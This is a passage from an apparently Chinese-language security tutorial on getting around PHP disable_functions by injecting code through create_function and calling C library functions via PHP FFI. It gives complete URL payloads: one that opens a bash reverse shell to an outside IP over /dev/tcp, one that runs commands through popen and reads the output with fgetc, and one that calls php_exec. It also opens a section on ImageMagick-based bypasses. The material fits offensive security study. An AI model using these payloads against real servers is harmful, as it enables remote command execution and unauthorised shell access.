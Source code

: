 ```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int system(const char *command);");$ffi->system('bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"')/*
```

但这里也失败了，可能还是权限的问题。所以，我们还要找别的C库函数。

#### 利用FFI调用C库的popen函数

C库的system函数调用shell命令，只能获取到shell命令的返回值，而不能获取shell命令的输出结果，如果想获取输出结果我们可以用popen函数来实现：

```c
FILE *popen(const char* command, const char* type);
```

popen()函数会调用fork()产生子进程，然后从子进程中调用 /bin/sh -c 来执行参数 command 的指令。

参数 type 可使用 "r"代表读取，"w"代表写入。依照此type值，popen()会建立管道连到子进程的标准输出设备或标准输入设备，然后返回一个文件指针。随后进程便可利用此文件指针来读取子进程的输出设备或是写入到子进程的标准输入设备中。

所以，我们还可以利用C库的popen()函数来执行命令，但要读取到结果还需要C库的fgetc等函数。payload如下：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("void *popen(char*,char*);void pclose(void*);int fgetc(void*);","libc.so.6");$o = $ffi->popen("ls /","r");$d = "";while(($c = $ffi->fgetc($o)) != -1){$d .= str_pad(strval(dechex($c)),2,"0",0);}$ffi->pclose($o);echo hex2bin($d);/* 
```

成功执行命令：

![image-20210131194502090](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9577e131127dfcf4bc520bcc2c7c326f8951af57.png)

#### 利用FFI调用PHP源码中的函数

其次，我们还有一种思路，即FFI中可以直接调用php源码中的函数，比如这个php\_exec()函数就是php源码中的一个函数，当他参数type为3时对应着调用的是passthru()函数，其执行命令可以直接将结果原始输出，payload如下：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int php_exec(int type, char *cmd);");$ffi->php_exec(3,"ls /");/*
```

成功执行命令：

![image-20210131195536257](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-de0f07493bc4236a7ca8553648d3e180447cd54c.png)

在蚁剑中有该绕过disable\_functions的插件：

![image-20210209204344862](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-12836801084f3ce3a245a3fab48de8446272f4a5.png)

点击开始按钮后，成功之后, 会创建一个新的虚拟终端，在这个新的虚拟终端中即可执行命令了。

利用 ImageMagick
--------------

**使用条件：**

- 目标主机安装了漏洞版本的imagemagick（&lt;= 3.3.0）
- 安装了php-imagick拓展并在php.ini中启用；
- 编写php通过new Imagick对象的方式来处理图片等格式文件；
- PHP &gt;= 5.4
